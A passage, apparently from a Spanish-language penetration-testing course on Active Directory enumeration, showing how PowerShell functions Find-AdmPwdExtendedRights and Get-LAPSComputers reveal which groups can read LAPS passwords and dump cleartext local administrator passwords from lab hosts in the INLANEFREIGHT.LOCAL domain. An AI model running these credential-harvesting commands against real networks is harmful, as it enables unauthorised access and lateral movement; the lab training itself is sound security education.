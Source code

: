 Comprueba `Find-AdmPwdExtendedRights`los derechos en cada computadora con LAPS habilitado para cualquier grupo con acceso de lectura y usuarios con "Todos los derechos extendidos". Los usuarios con "Todos los derechos extendidos" pueden leer las contraseñas de LAPS y pueden estar menos protegidos que los usuarios de grupos delegados, por lo que vale la pena comprobarlo.
#### Usando Find-AdmPwdExtendedRights

```powershell-session
PS C:\htb> Find-AdmPwdExtendedRights

ComputerName                Identity                    Reason
------------                --------                    ------
EXCHG01.INLANEFREIGHT.LOCAL INLANEFREIGHT\Domain Admins Delegated
EXCHG01.INLANEFREIGHT.LOCAL INLANEFREIGHT\LAPS Admins   Delegated
SQL01.INLANEFREIGHT.LOCAL   INLANEFREIGHT\Domain Admins Delegated
SQL01.INLANEFREIGHT.LOCAL   INLANEFREIGHT\LAPS Admins   Delegated
WS01.INLANEFREIGHT.LOCAL    INLANEFREIGHT\Domain Admins Delegated
WS01.INLANEFREIGHT.LOCAL    INLANEFREIGHT\LAPS Admins   Delegated
```

Podemos utilizar la `Get-LAPSComputers`función para buscar equipos que tengan LAPS habilitado cuando las contraseñas caduquen, e incluso las contraseñas aleatorias en texto claro si nuestro usuario tiene acceso.
#### Usando Get-LAPSComputers

```powershell-session
PS C:\htb> Get-LAPSComputers

ComputerName                Password       Expiration
------------                --------       ----------
DC01.INLANEFREIGHT.LOCAL    6DZ[+A/[]19d$F 08/26/2020 23:29:45
EXCHG01.INLANEFREIGHT.LOCAL oj+2A+[hHMMtj, 09/26/2020 00:51:30
SQL01.INLANEFREIGHT.LOCAL   9G#f;p41dcAe,s 09/26/2020 00:30:09
WS01.INLANEFREIGHT.LOCAL    TCaG-F)3No;l8C 09/26/2020 00:46:04
```

---

## Conclusión

Como hemos visto en esta sección, tenemos a nuestra disposición varias otras técnicas útiles de enumeración de AD para determinar qué protecciones existen. Vale la pena familiarizarse con todas estas herramientas y técnicas y agregarlas a su arsenal de opciones. Ahora, continuemos nuestra enumeración del dominio INLANEFREIGHT.LOCAL desde un punto de vista acreditado.